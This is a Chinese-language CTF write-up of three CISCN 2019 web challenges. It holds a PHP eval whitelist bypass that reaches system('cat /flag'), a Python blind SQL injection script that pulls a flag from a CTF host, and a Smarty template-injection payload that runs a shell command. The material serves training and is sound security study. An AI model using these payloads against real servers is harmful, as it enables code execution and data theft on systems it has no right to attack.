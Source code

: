 # CISCN 2019

## Web

### \[初赛] Love Math

**题目**

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

通过代码审计可以得出要求

* 字符不得超过 80 个
* 字符必须在白名单，并且不能出现黑名单上的字符

我们需要构造 `system(cat /flag)` ，需要使得 `c=($_GET[1])($_GET[2])` 。

首先是得将转换得到 `hex2bin()` 函数，由于存在 x 所以我们需要至少 34 进制（

`hex2bin` 34 进制转 16 进制得到 `26941962055` ，此时 `base_convert(26941962055,10,34) = hex2bin` 。

`_GET` 字符串转 16 进制得到 `5f474554` 再转成 10 进制得到 `1598506324` ，此时如下代码

```php
<?php
echo (base_convert(26941962055,10,34))(dechex(1598506324));
```

的结果就是 `_GET` ，接下来就是处理 `$` 符号，需要通过引用变量来触发，中括号不在白名单那就用大括号，构造 Payload 如下

```
c=$pi=base_convert(26941962055,10,34)(dechex(1598506324));($$pi){1}(($$pi){2})&1=system&2=cat /flag
```



### \[华北赛区 Day2 Web1] Hack World

```python
import time
import requests

url = 'http://b478134c-6e5f-4069-8910-4f12fc9bab6c.node4.buuoj.cn:81/'
results = []
session = requests.Session()

for i in range(1,43):
    start = 32
    end = 127
    for j in range(start, end):
        mid = (start + end) // 2
        data = {"id": f"0^(ascii(substr((select(flag)from(flag)),{i},1))>{mid})"}
        time.sleep(0.1)
        ret = session.post(url, data=data)
        if 'Hello, glzjin wants a girlfriend.' in ret.text:
            start = mid
        else:
            end = mid
        if (end - start) <= 1:
            results.append(chr(end))
            print(''.join(results))
            break
```

### \[华东南赛区] Web11

底部带有提示 `Build With Smarty !` ，猜测是 Smarty SSTI 注入。

* `{php}{/php}` ，在 Smarty 3.1， `{php}{/php}` 仅在 SmartyBC 中可用。
* `{literal}` ，使得模板字符原样输出。
* `getStreamVariable` ，读取一个文件并返回内容
* `{if}{/if}`

构造 Payload 如下

```
{if system('cat /flag')}{/if}
```

查看源代码即可获得 flag 。
